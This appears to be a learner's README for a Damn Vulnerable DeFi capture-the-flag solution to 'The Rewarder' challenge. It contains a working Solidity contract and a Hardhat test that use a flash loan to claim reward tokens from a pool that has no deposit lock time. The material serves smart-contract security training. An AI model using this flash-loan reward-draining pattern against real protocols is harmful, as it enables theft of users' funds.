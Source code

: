 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

## Comparison

command to run test -> npx hardhat test the_rewarder.challenge.js About to use github linker and "@audit" tag to document stuff in .md file as mentioned here

---- before executing the code ------

I was unable to write report, because I dont have any clue how to write a good report.

** DO NOT READ FURTHER BELOW IF YOU HAVE NOT ALREADY TRIED SOLVING ** - highly recommended.

## Solution :

https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/the-rewarder/FaultyContract.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IFlashloanPool {
    function flashLoan(uint256 amount) external;
}

interface IRewardPool {
    function deposit(uint256 amount) external;
    function withdraw(uint256 amount) external;
}

contract FaultyContract {
    IFlashloanPool public immutable flashLoanPool;
    IERC20 public immutable liquidityToken;
    IRewardPool immutable rewarderPool;
    IERC20 immutable rewardPool;
    address immutable player;

    constructor(address _flashLoanPool, address _liquidityToken, address _rewarderPool, address _rewardPool) {
        flashLoanPool = IFlashloanPool(_flashLoanPool);
        liquidityToken = IERC20(_liquidityToken);
        rewarderPool = IRewardPool(_rewarderPool);
        rewardPool = IERC20(_rewardPool);
        player = msg.sender;
    }

    function firstTimer() external {
        flashLoanPool.flashLoan(uint256(liquidityToken.balanceOf(address(flashLoanPool))));
    }

    function receiveFlashLoan(uint256 amount) external {
        liquidityToken.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);
        rewardPool.transfer(player, rewardPool.balanceOf(address(this)));
        rewarderPool.withdraw(amount);
        liquidityToken.transfer(address(flashLoanPool), amount);
    }
}

```

https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/test/the-rewarder/the-rewarder.challenge.js#L99-L112

```javascript
it("Execution", async function () {
  await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);

  let playerContract = await (
    await ethers.getContractFactory("FaultyContract", player)
  ).deploy(
    flashLoanPool.address,
    liquidityToken.address,
    rewarderPool.address,
    rewardToken.address
  );

  await playerContract.firstTimer();
});
```

## Concepts Learned :

[here](https://www.linkedin.com/pulse/damn-vulnerable-defi-v3-challenge-5-solution-rewarder-johnny-time/)

when comparing my code with the above url these are all the findings :

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IFlashloanPool {
    function flashLoan(uint256 amount) external;
}

interface IRewardPool {
    function deposit(uint256 amount) external;
    function withdraw(uint256 amount) external;
}

```

1. declaring Interface is a way to tell solidity the next contract I am about has these particular functions. This is important because we need calldatat to talk to evm and calldata is nothing but info about the function to be called and its arge.

2. Interface acts as types for address to create an instance of the contract at the particular address;

3. Intrestingly all the functions in Interface needs to be external & even calls an internal function of the particular contract if that function is called by the function in your Interface.

4. I found that when compared to URL it is unncessary to provide the distributeRewards() in interface as our deposit() function calls distributeRewards(); -> its an additonal thing which will increase the gas for.

POSITIVE TAKE AWAY : The logic I applied is exactly same as given in the URL above. Need to make my contract safe too which I did not do..

## Hack & How to stop it

Simply put the issue is the protocal is designed faulty and should have some lock time for the deposit amounts, which its lacking.
